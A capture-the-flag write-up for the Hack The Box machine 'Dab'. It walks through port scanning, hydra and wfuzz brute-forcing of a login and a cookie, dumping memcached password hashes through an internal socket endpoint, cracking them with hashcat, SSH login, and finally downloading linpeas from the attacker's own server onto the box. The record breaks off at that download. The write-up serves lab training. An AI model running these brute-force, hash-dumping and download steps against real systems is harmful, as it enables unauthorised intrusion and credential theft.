


---
search:
  exclude: true
---
# Dab Writeup

## Introduction :

Dab is a hard linux box released back in August 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sT** for tcp ports and **-sU** to for udp ports.
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/2 ] [~/_HTB/dab]
    → sudo nmap -vvv -sTU -p- 10.10.10.86 --max-retries 0 -Pn --min-rate=500 | grep Discovered
    [sudo] password for nothing:
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Discovered open port 80/tcp on 10.10.10.86
    Discovered open port 22/tcp on 10.10.10.86
    Discovered open port 21/tcp on 10.10.10.86
    Discovered open port 8080/tcp on 10.10.10.86
    
    

Once we know which ports are opened, we enumerate the ones we want with **-p** , using the flags **-sC** for default scripts, and **-sV** to enumerate versions.
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/2 ] [~/_HTB/dab]
    → sudo nmap -sCV -p80,21,22,8080 10.10.10.86
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-15 21:52 CET
    Nmap scan report for 10.10.10.86
    Host is up (0.036s latency).
    
    PORT     STATE SERVICE VERSION
    21/tcp   open  ftp     vsftpd 3.0.3
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_-rw-r--r--    1 0        0            8803 Mar 26  2018 dab.jpg
    | ftp-syst:
    |   STAT:
    | FTP server status:
    |      Connected to ::ffff:10.10.14.16
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      At session startup, client count was 3
    |      vsFTPd 3.0.3 - secure, fast, stable
    |_End of status
    22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 20:05:77:1e:73:66:bb:1e:7d:46:0f:65:50:2c:f9:0e (RSA)
    |   256 61:ae:15:23:fc:bc:bc:29:13:06:f2:10:e0:0e:da:a0 (ECDSA)
    |_  256 2d:35:96:4c:5e:dd:5c:c0:63:f0:dc:86:f1:b1:76:b5 (ED25519)
    80/tcp   open  http    nginx 1.10.3 (Ubuntu)
    |_http-server-header: nginx/1.10.3 (Ubuntu)
    | http-title: Login
    |_Requested resource was http://10.10.10.86/login
    8080/tcp open  http    nginx 1.10.3 (Ubuntu)
    |_http-open-proxy: Proxy might be redirecting requests
    |_http-server-header: nginx/1.10.3 (Ubuntu)
    |_http-title: Internal Dev
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 8.74 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's investigate it:

We investigate using burpsuite's repeater:

Here we investigate the error codes of our login attempts with a possible username (admin) and an improbable one (adminhaha):

 

So we got the following results:
    
    
    admin		>>> Error: Login failed
    adminhaha	>>> Error: Login failed**.**
    
    

This is something you need to check, do you get the same error message when trying different usernames? and here the error codes are different. which gives us a hint that admin is a username. Since we know that the trailing dot is indicative that we have a correct username, we're going to use hydra to enumerate that.

    
    
    [DATA] attacking http-post-form://10.10.10.86:80/login:username=^USER^&password;=^PASS^&submit;=Login:Login failed.<
    [80][http-post-form] host: 10.10.10.86   login: ADMIN   password: hahhahhaha
    [80][http-post-form] host: 10.10.10.86   login: Admin   password: hahhahhaha
    [80][http-post-form] host: 10.10.10.86   login: Audrey   password: hahhahhaha
    [80][http-post-form] host: 10.10.10.86   login: DEFAULT   password: hahhahhaha
    [80][http-post-form] host: 10.10.10.86   login: DEMO   password: hahhahhaha
    [80][http-post-form] host: 10.10.10.86   login: Demo   password: hahhahhaha
    [80][http-post-form] host: 10.10.10.86   login: admin   password: hahhahhaha
    [80][http-post-form] host: 10.10.10.86   login: default   password: hahhahhaha
    [80][http-post-form] host: 10.10.10.86   login: demo   password: hahhahhaha
    

Now that we have a list of usernames:
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/5 ] [~/_HTB/dab]
    → cat usernames
    ADMIN
    Admin
    Audrey
    DEFAULT
    DEMO
    Demo
    admin
    default
    demo
    
    

we can try to find the password for one of these usernames using hydra and rockyou.txt
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/3 ] [~/_HTB/dab]
    → ls -lash /usr/share/wordlists/rockyou.txt
    134M -rw-r--r-- 1 root root 134M Jul 17  2019 /usr/share/wordlists/rockyou.txt
    
    [ 10.10.14.16/23 ] [ /dev/pts/3 ] [~/_HTB/dab]
    → hydra -L usernames -P /usr/share/wordlists/rockyou.txt 10.10.10.86 http-post-form "/login:username=^USER^&password;=^PASS^&submit;=Login:failed"
    Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
    
    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-15 22:58:36
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 129099591 login tries (l:9/p:14344399), ~8068725 tries per task
    [DATA] attacking http-post-form://10.10.10.86:80/login:username=^USER^&password;=^PASS^&submit;=Login:failed
    [STATUS] 2643.00 tries/min, 2643 tries in 00:01h, 129096948 to do in 814:05h, 16 active
    [80][http-post-form] host: 10.10.10.86   login: ADMIN   password: Password1
    
    

And it looks like we have credentials ! ADMIN:Password1 so let's login:

It looks like an empty page with nothing useful on it, however it initiated something with memcache as we're going to see later on. To continue, we're going to take a look at port 8080:

And here we get an error message telling us something about the pass auth cookie, so we need to figure out what the cookie is called. To do so we'll use wfuzz, when we run it without any filters we get the 322 character length:
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/4 ] [/usr/share/wordlists]
    → wfuzz -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -H "Cookie: FUZZ" http://10.10.10.86:8080
     /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
     ********************************************************
     * Wfuzz 3.1.0 - The Web Fuzzer                         *
     ********************************************************
    
     Target: http://10.10.10.86:8080/
     Total requests: 2588
    
     =====================================================================
     ID           Response   Lines    Word       Chars       Payload
     =====================================================================
    
     000000003:   200        14 L     30 W       322 Ch      "page"
     000000034:   200        14 L     30 W       322 Ch      "login"
     000000036:   200        14 L     30 W       322 Ch      "content"
     000000031:   200        14 L     30 W       322 Ch      "s"
     000000033:   200        14 L     30 W       322 Ch      "excerpt"
     000000007:   200        14 L     30 W       322 Ch      "email"
     000000035:   200        14 L     30 W       322 Ch      "search"
     000000015:   200        14 L     30 W       322 Ch      "user"
     000000030:   200        14 L     30 W       322 Ch      "description"
     000000001:   200        14 L     30 W       322 Ch      "id"
     000000032:   200        14 L     30 W       322 Ch      "post"
     000000029:   200        14 L     30 W       322 Ch      "charset"
     000000023:   200        14 L     30 W       322 Ch      "order"
     000000025:   200        14 L     30 W       322 Ch      "p"
     000000026:   200        14 L     30 W       322 Ch      "key"
     000000022:   200        14 L     30 W       322 Ch      "mode"
     000000028:   200        14 L     30 W       322 Ch      "start"
     000000024:   200        14 L     30 W       322 Ch      "lang"
     000000027:   200        14 L     30 W       322 Ch      "status"
     000000021:   200        14 L     30 W       322 Ch      "data"
     [...]
    

So we're going to filter out the 322 character length using the --hh 322 flag: 
    
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/3 ] [~/_HTB/dab]
    → wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -H "Cookie: FUZZ" --hh 322 http://10.10.10.86:8080
     /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
     ********************************************************
     * Wfuzz 3.1.0 - The Web Fuzzer                         *
     ********************************************************
    
     Target: http://10.10.10.86:8080/
     Total requests: 2588
    
     =====================================================================
     ID           Response   Lines    Word       Chars       Payload
     =====================================================================
    
     000000005:   200        14 L     29 W       324 Ch      "password"
    
     Total time: 11.62986
     Processed Requests: 2588
     Filtered Requests: 2587
     Requests/sec.: 222.5305
    
    

And we found it! the Cookie has to be set to the "password" value. So let's use burpsuite to make this process easier:

  

as expected, we get the cookie not set error, now let's set the cookie password parameter with a random value:

And as you can see here, we get a different error message than previously, this means that the parameter "password" is valid, but the value that it posesses is not, so let's bruteforce it with a wordlist and as we do so, we need to first know what's the character response length:

In this case it is 324 characters, so we need to use wfuzz's --hh 324 flag:
    
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/3 ] [~/_HTB/dab]
    → wfuzz -c -w /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -H "Cookie: password=FUZZ" --hh 324 http://10.10.10.86:8080
     /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
     ********************************************************
     * Wfuzz 3.1.0 - The Web Fuzzer                         *
     ********************************************************
    
     Target: http://10.10.10.86:8080/
     Total requests: 10000
    
     =====================================================================
     ID           Response   Lines    Word       Chars       Payload
     =====================================================================
    
     000000097:   200        21 L     48 W       540 Ch      "secret"
    
     Total time: 43.05595
     Processed Requests: 10000
     Filtered Requests: 9999
     Requests/sec.: 232.2559
    

so when you set the cookie parameter 'password' to 'secret' you get the following:

   

and when you send random values to the prompts you get this url and response:
    
    
    http://10.10.10.86:8080/socket?port=nothing&cmd;=nowhere
    
    

` 

Now we don't need to use firefox to manually bruteforce this, let's use curl.
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/3 ] [~/_HTB/dab]
    → curl -H "Cookie: password=secret" 'http://10.10.10.86:8080/socket?port=1&cmd;=nothing'
    
    500 Internal Server Error
    
    
    # Internal Server Error
    
    
    
    
    The server encountered an internal error and was unable to complete your request.  Either the server is overloaded or there is an error in the application.
    
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/3 ] [~/_HTB/dab]
    → curl -H "Cookie: password=secret" 'http://10.10.10.86:8080/socket?port=21&cmd;=nothing' -s |tail +8
    
    
    
    
    
    
    
    Status of cache engine: Online
    
    
    
    
    #### TCP socket test
    
    
    
    
    
    
    
    
    
    
    Output
    
    
    
    
    
    220 (vsFTPd 3.0.3)
    530 Please login with USER and PASS.
    
    

% 

So here we see something interesting, we can scan the ports from that page. Let's trim out the useless infos from our output:
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/3 ] [~/_HTB/dab]
    → curl -H "Cookie: password=secret" 'http://10.10.10.86:8080/socket?port=21&cmd;=nothing' -s |tail +20 | head -n -4
    
    
    
    220 (vsFTPd 3.0.3)
    530 Please login with USER and PASS.
    
    

[ 10.10.14.16/23 ] [ /dev/pts/3 ] [~/_HTB/dab] → curl -H "Cookie: password=secret" 'http://10.10.10.86:8080/socket?port=22&cmd;=nothing' -s |tail +20 | head -n -4 
    
    
    SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.4
    Protocol mismatch.
    
    

[ 10.10.14.16/23 ] [ /dev/pts/3 ] [~/_HTB/dab] → curl -H "Cookie: password=secret" 'http://10.10.10.86:8080/socket?port=80&cmd;=nothing' -s |tail +20 | head -n -4 
    
    
    HTTP/1.1 400 Bad Request
    Server: nginx/1.10.3 (Ubuntu)
    Date: Sat, 16 Jan 2021 09:18:49 GMT
    Content-Type: text/html
    Content-Length: 182
    Connection: close
    
    <html>
    <head><title>400 Bad Request</title></head>
    <body bgcolor="white">
    
<h1>400 Bad Request</h1>

    

nginx/1.10.3 (Ubuntu)

    </body>
    </html>
    
    

So let's use wfuzz again to enumerate the ports:
    
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/4 ] [~/_HTB/dab]
    → wfuzz -c -z range,1-65535 -u 'http://10.10.10.86:8080/socket?port=FUZZ&cmd;=nothing' -H "Cookie: password=secret" --hc=500
     /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
     ********************************************************
     * Wfuzz 3.1.0 - The Web Fuzzer                         *
     ********************************************************
    
     Target: http://10.10.10.86:8080/socket?port=FUZZ&cmd;=nothing
     Total requests: 65535
    
     =====================================================================
     ID           Response   Lines    Word       Chars       Payload
     =====================================================================
    
     000000021:   200        28 L     61 W       627 Ch      "21"
     000000022:   200        28 L     55 W       629 Ch      "22"
     000000080:   200        40 L     84 W       1010 Ch     "80"
     000008080:   200        40 L     84 W       1010 Ch     "8080"
     000011211:   200        27 L     52 W       576 Ch      "11211"
     000050528:   200        27 L     52 W       577 Ch      "50528"
    
    

looks like we picked up something our nmap scan didnt earlier: 
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/6 ] [~/_HTB/dab]
    →  curl -H "Cookie: password=secret" 'http://10.10.10.86:8080/socket?port=11211&cmd;=nothing' -s |tail +20 | head -n -4
    
    
    
    ERROR
    
    

[ 10.10.14.16/23 ] [ /dev/pts/6 ] [~/_HTB/dab] → curl -H "Cookie: password=secret" 'http://10.10.10.86:8080/socket?port=50528&cmd;=nothing' -s |tail +20 | head -n -4 

These error codes aren't helpful although we now know that these ports are most likely to be our next steps. So first we do a bit of research on port 11211 and we find that it may correspond to [memcached](https://memcached.org/)

Based on this, we can enumerate memcached further:
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/6 ] [~/_HTB/dab]
    →  curl -H "Cookie: password=secret" 'http://10.10.10.86:8080/socket?port=11211&cmd;=version' -s |tail +20 | head -n -4
    
    
    
    VERSION 1.4.25 Ubuntu
    
    

[ 10.10.14.16/23 ] [ /dev/pts/6 ] [~/_HTB/dab] → curl -H "Cookie: password=secret" 'http://10.10.10.86:8080/socket?port=11211&cmd;=stats slabs' -s |tail +20 | head -n -4 
    
    
    STAT 16:chunk_size 2904
    STAT 16:chunks_per_page 361
    STAT 16:total_pages 1
    STAT 16:total_chunks 361
    STAT 16:used_chunks 1
    STAT 16:free_chunks 360
    STAT 16:free_chunks_end 0
    STAT 16:mem_requested 2880
    STAT 16:get_hits 0
    STAT 16:cmd_set 2
    STAT 16:delete_hits 0
    STAT 16:incr_hits 0
    STAT 16:decr_hits 0
    STAT 16:cas_hits 0
    STAT 16:cas_badval 0
    STAT 16:touch_hits 0
    STAT 26:chunk_size 27120
    STAT 26:chunks_per_page 38
    STAT 26:total_pages 1
    STAT 26:total_chunks 38
    STAT 26:used_chunks 1
    STAT 26:free_chunks 37
    STAT 26:free_chunks_end 0
    STAT 26:mem_requested 24699
    STAT 26:get_hits 13640
    STAT 26:cmd_set 29
    STAT 26:delete_hits 0
    STAT 26:incr_hits 0
    STAT 26:decr_hits 0
    STAT 26:cas_hits 0
    STAT 26:cas_badval 0
    STAT 26:touch_hits 0
    STAT active_slabs 2
    STAT total_malloced 2078904
    END
    
    

[ 10.10.14.16/23 ] [ /dev/pts/6 ] [~/_HTB/dab] → curl -H "Cookie: password=secret" 'http://10.10.10.86:8080/socket?port=11211&cmd;=stats items' -s |tail +20 | head -n -4 
    
    
    STAT items:16:number 1
    STAT items:16:age 48401
    STAT items:16:evicted 0
    STAT items:16:evicted_nonzero 0
    STAT items:16:evicted_time 0
    STAT items:16:outofmemory 0
    STAT items:16:tailrepairs 0
    STAT items:16:reclaimed 0
    STAT items:16:expired_unfetched 0
    STAT items:16:evicted_unfetched 0
    STAT items:16:crawler_reclaimed 0
    STAT items:16:crawler_items_checked 0
    STAT items:16:lrutail_reflocked 0
    STAT items:26:number 1
    STAT items:26:age 48410
    STAT items:26:evicted 0
    STAT items:26:evicted_nonzero 0
    STAT items:26:evicted_time 0
    STAT items:26:outofmemory 0
    STAT items:26:tailrepairs 0
    STAT items:26:reclaimed 0
    STAT items:26:expired_unfetched 0
    STAT items:26:evicted_unfetched 0
    STAT items:26:crawler_reclaimed 0
    STAT items:26:crawler_items_checked 0
    STAT items:26:lrutail_reflocked 0
    END
    
    

So here we managed to get information on the OS, and the items and memory, which are known as slabs. You can see their ids are either 16 or 26, for each slab we can use **stats cachedump** to give us each item in the slab with its size and expiration timestamp:
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/6 ] [~/_HTB/dab]
    →  curl -H "Cookie: password=secret" 'http://10.10.10.86:8080/socket?port=11211&cmd;=stats cachedump 16 0' -s |tail +20 | head -n -4
    
    
    
    ITEM stock [2807 b; 1610748196 s]
    END
    
    

[ 10.10.14.16/23 ] [ /dev/pts/6 ] [~/_HTB/dab] → curl -H "Cookie: password=secret" 'http://10.10.10.86:8080/socket?port=11211&cmd;=stats cachedump 26 0' -s |tail +20 | head -n -4 
    
    
    ITEM users [24625 b; 1610748187 s]
    END
    
    

We can also get Users data:
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/6 ] [~/_HTB/dab]
    → curl -H "Cookie: password=secret" 'http://10.10.10.86:8080/socket?port=11211&cmd;=get users' -s |tail +20 | head -n -4
    
    
    
    END
    
    

Well, not quite, that is because we need to login like we did earlier:

Once we logged in again, get the users info but format it correctly otherwise this is going to be some unreadable garbage:
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/6 ] [~/_HTB/dab]
    → curl -H "Cookie: password=secret" 'http://10.10.10.86:8080/socket?port=11211&cmd;=get users' -s |tail +20 | head -n -4
    
    
    
    VALUE users 0 24625
    {"quinton_dach": "17906b445a05dc42f78ae86a92a57bbd", "jackie.abbott": "c6ab361604c4691f78958d6289910d21", "isidro": "e4a4c90483d2ef61de42af1f044087f3", "roy": "afbde995441e19497fe0695e9c539266", "colleen": "d3792794c3143f7e04fd57dc8b085cd4", "harrison.hessel": "bc5f9b43a0336253ff947a4f8dbdb74f", "asa.christiansen": "d7505316e9a10fc113126f808663b5a4", "jessie": "71f08b45555acc5259bcefa3af63f4e1", "milton_hintz": "8f61be2ebfc66a5f2496bbf849c89b84", "demario_homenick": "2c22da161f085a9aba62b9bbedbd4ca7", "paris": "ef9b20082b7c234c91e165c947f10b71", "gardner_ward": "eb7ed0e8c112234ab1439726a4c50162", "daija.casper": "4d0ed472e5714e5cca8ea7272b15173a", "alanna.prohaska": "6980ba8ee392b3fa6a054226b7d8dd8f", "russell_borer": "cb10b94b5dbb5dfab049070a2abda16e", "domenica.kulas": "5cb322691472f05130416b05b22d4cdf", "davon.kuhic": "e301e431db395ab3fdc123ba8be93ff9", "alana": "41c85abbc7c64d93ca7bda5e2cfc46c2", "bryana": "4d0da0f96ecd0e8b655573cd67b8a1c1", "elmo_welch": "89122bf3ade23faf37b470f1fa5c7358", "sasha": "fbabdcc0eb2ace9aa5b88148a02f78fe", "krystina.lynch": "1b4b73070f563b787afaf435943fac9c", "rick_kirlin": "8952b9d5be0dcb77bdf349cc0e79b49d", "elenora": "edbe5879fa4e452ceceedccf59067409", "broderick": "
    [...]
    

[ 10.10.14.16/23 ] [ /dev/pts/6 ] [~/_HTB/dab] → curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd;=get users' -H "Cookie: password=secret" | recode html..ascii | sed -n '/VALUE/{:a;n;/END/b;p;ba}' | jq . { "quinton_dach": "17906b445a05dc42f78ae86a92a57bbd", "jackie.abbott": "c6ab361604c4691f78958d6289910d21", "isidro": "e4a4c90483d2ef61de42af1f044087f3", "roy": "afbde995441e19497fe0695e9c539266", "colleen": "d3792794c3143f7e04fd57dc8b085cd4", "harrison.hessel": "bc5f9b43a0336253ff947a4f8dbdb74f", "asa.christiansen": "d7505316e9a10fc113126f808663b5a4", "jessie": "71f08b45555acc5259bcefa3af63f4e1", "milton_hintz": "8f61be2ebfc66a5f2496bbf849c89b84", [...] } 

Thing is, you need to log back in to be able to keep reading the users data because after 1 minute the data gets cleared out of memcache. So we're going to save it to a file
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/6 ] [~/_HTB/dab]
    → curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd;=get users' -H "Cookie: password=secret" | recode html..ascii | sed -n '/VALUE/{:a;n;/END/b;p;ba}' | jq . > users.txt
    
    

Now here we need to get the hashes out of that json file:
    
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/6 ] [~/_HTB/dab]
    → cat users.json
    {
     "quinton_dach": "17906b445a05dc42f78ae86a92a57bbd",
     "jackie.abbott": "c6ab361604c4691f78958d6289910d21",
     "isidro": "e4a4c90483d2ef61de42af1f044087f3",
     "roy": "afbde995441e19497fe0695e9c539266",
     "colleen": "d3792794c3143f7e04fd57dc8b085cd4",
    [...]
    
    [ 10.10.14.16/23 ] [ /dev/pts/6 ] [~/_HTB/dab]
    → cat users.json | jq -r 'to_entries | .[].value' |head -n10
    17906b445a05dc42f78ae86a92a57bbd
    c6ab361604c4691f78958d6289910d21
    e4a4c90483d2ef61de42af1f044087f3
    afbde995441e19497fe0695e9c539266
    d3792794c3143f7e04fd57dc8b085cd4
    bc5f9b43a0336253ff947a4f8dbdb74f
    d7505316e9a10fc113126f808663b5a4
    71f08b45555acc5259bcefa3af63f4e1
    8f61be2ebfc66a5f2496bbf849c89b84
    2c22da161f085a9aba62b9bbedbd4ca7
    
    [ 10.10.14.16/23 ] [ /dev/pts/6 ] [~/_HTB/dab]
    → cat users.json | jq -r 'to_entries | .[].value' > hashes
    
    

Once we have the hashes saved into a file, we can use hashcat to crack them, and 12 of them returned: 
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/6 ] [~/_HTB/dab]
    → hashcat -a 0 -m 0 hashes /usr/share/wordlists/rockyou.txt --force -o cracked
    
    [ 10.10.14.16/23 ] [ /dev/pts/6 ] [~/_HTB/dab]
    → hashcat users-hashes --show
    eb95fc1ab8251cf1f8f870e7e4dae54d:megadeth
    fc7992e8952a8ff5000cb7856d8586d2:Princess1
    fe01ce2a7fbac8fafaed7c982a04e229:demo
    2ac9cb7dc02b3c0083eb70898e549b63:Password1
    254e5f2c3beb1a3d03f17253c15c07f3:hacktheplanet
    c21f969b5f03d33d43e04f8f136e7682:default
    9731e89f01c1fb943cf0baa6772d2875:piggy
    0ef9c986fad340989647f0001e3555d4:misfits
    5177790ad6df0ea98db41b37b602367c:strength
    6f9ff93a26a118b460c878dc30e17130:monkeyman
    1e0ad2ec7e8c3cc595a9ec2e3762b117:blaster
    0daa6275280be3cf03f9f9c62f9d26d1:lovesucks1
    
    

So now we have a massive list of users and 12 passwords with only the hashes in common:
    
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/6 ] [~/_HTB/dab]
    → cat users.json | head -n10
    {
      "quinton_dach": "17906b445a05dc42f78ae86a92a57bbd",
      "jackie.abbott": "c6ab361604c4691f78958d6289910d21",
      "isidro": "e4a4c90483d2ef61de42af1f044087f3",
      "roy": "afbde995441e19497fe0695e9c539266",
      "colleen": "d3792794c3143f7e04fd57dc8b085cd4",
      "harrison.hessel": "bc5f9b43a0336253ff947a4f8dbdb74f",
      "asa.christiansen": "d7505316e9a10fc113126f808663b5a4",
      "jessie": "71f08b45555acc5259bcefa3af63f4e1",
      "milton_hintz": "8f61be2ebfc66a5f2496bbf849c89b84",
    
    [ 10.10.14.16/23 ] [ /dev/pts/6 ] [~/_HTB/dab]
    → cat user-hashes
    eb95fc1ab8251cf1f8f870e7e4dae54d:megadeth
    fc7992e8952a8ff5000cb7856d8586d2:Princess1
    fe01ce2a7fbac8fafaed7c982a04e229:demo
    2ac9cb7dc02b3c0083eb70898e549b63:Password1
    254e5f2c3beb1a3d03f17253c15c07f3:hacktheplanet
    c21f969b5f03d33d43e04f8f136e7682:default
    9731e89f01c1fb943cf0baa6772d2875:piggy
    0ef9c986fad340989647f0001e3555d4:misfits
    5177790ad6df0ea98db41b37b602367c:strength
    6f9ff93a26a118b460c878dc30e17130:monkeyman
    1e0ad2ec7e8c3cc595a9ec2e3762b117:blaster
    0daa6275280be3cf03f9f9c62f9d26d1:lovesucks1
    :w
    
    

Since the hash is what these 2 files have in common, we're going to use it to end up with a file that contains 'username:password' so that it can be ran into hydra.
    
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/6 ] [~/_HTB/dab]
    → cat user-hashes| while read c; do hash=$(echo ${c} | cut -d: -f1); pass=$(echo $c |cut -d: -f2); username=$(grep ${hash} users.json | cut -d: -f1 ); echo "${username}:${pass}"; done
     "wendell":megadeth
     "genevieve":Princess1
     "demo":demo
     "admin":Password1
     "d_murphy":hacktheplanet
     "default":default
     "abbigail":piggy
     "aglae":misfits
     "irma":strength
     "ona":monkeyman
     "alec":blaster
     "rick":lovesucks1
    :
    
    [ 10.10.14.16/23 ] [ /dev/pts/6 ] [~/_HTB/dab]
    → cat user-hashes| while read c; do hash=$(echo ${c} | cut -d: -f1); pass=$(echo $c |cut -d: -f2); username=$(grep ${hash} users.json | cut -d: -f1 ); echo "${username}:${pass}"; done > user_pass
    
    

Then cut out the " characters since hydra doesn't need these (:%s/"//gi , :wq )
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/6 ] [~/_HTB/dab]
    → cat user_pass
    wendell:megadeth
    genevieve:Princess1
    demo:demo
    admin:Password1
    d_murphy:hacktheplanet
    default:default
    abbigail:piggy
    aglae:misfits
    irma:strength
    ona:monkeyman
    alec:blaster
    rick:lovesucks1
    
    [ 10.10.14.16/23 ] [ /dev/pts/4 ] [~/_HTB/dab]
    → hydra -C user_pass ssh://10.10.10.86
    Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
    
    Hydra (http://www.thc.org/thc-hydra) starting at 2020-01-16 14:16:00
    [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4                                                                                          
    [DATA] max 12 tasks per 1 server, overall 12 tasks, 12 login tries, ~1 try per task
    [DATA] attacking ssh://10.10.10.86:22/
    [22][ssh] host: 10.10.10.86   login: genevieve   password: Princess1
    1 of 1 target successfully completed, 1 valid password found
    Hydra (http://www.thc.org/thc-hydra) finished at 2020-01-16 14:16:00
    
    

And we found credentials ! genevieve:Princess1 so let's login via ssh:
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/6 ] [~/_HTB/dab]
    → ssh genevieve@10.10.10.86
    The authenticity of host '10.10.10.86 (10.10.10.86)' can't be established.
    ECDSA key fingerprint is SHA256:3gHAJvc1zomI4M6+oCp/3xrMyS6DMPbMFEGDbBO2Qso.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.86' (ECDSA) to the list of known hosts.
    genevieve@10.10.10.86's password:
    Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 4.4.0-133-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
      * Management:     https://landscape.canonical.com
       * Support:        https://ubuntu.com/advantage
    
       0 packages can be updated.
       0 updates are security updates.
    
    
       Last login: Mon Mar 26 23:42:41 2018 from 172.23.10.99
       genevieve@dab:~$ id
       uid=1000(genevieve) gid=1000(genevieve) groups=1000(genevieve)
       genevieve@dab:~$ cat user.txt
       9bXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it! we managed to find the user flag.

## **Part 3 : Getting Root Access**

Now let's enumerate this box from genevieve's POV, to do so we'll use the linpeas script: 
    
    
    genevieve@dab:~$ which wget ; which curl
    /usr/bin/wget
    /usr/bin/curl
    
    

Looks like both curl and wget are on the server, this means that we will be able to upload our script onto the server easily, most likely in /tmp or in /dev/shm.
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/4 ] [~/_HTB/dab]
    → wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
    --2021-01-16 14:29:02--  https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
    Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.64.133, 151.101.0.133, 151.101.192.133, ...
    Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.64.133|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 319969 (312K) [text/plain]
    Saving to: ‘linpeas.sh’
    
    linpeas.sh                                   100%[============================================================================================>] 312.47K  --.-KB/s    in 0.09s
    
    2021-01-16 14:29:02 (3.36 MB/s) - ‘linpeas.sh’ saved [319969/319969]
    
    
    [ 10.10.14.16/23 ] [ /dev/pts/4 ] [~/_HTB/dab]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    
    
    
    genevieve@dab:/dev/shm$ wget http://10.10.14.16:9090/linpeas.sh
    --2021-01-16 08:30:02--  http://10.10.14.16:9090/linpeas.sh
    Connecting to 10.10.14.16:9090... connected.
    HTTP request sent, awaiting response... 200 OK
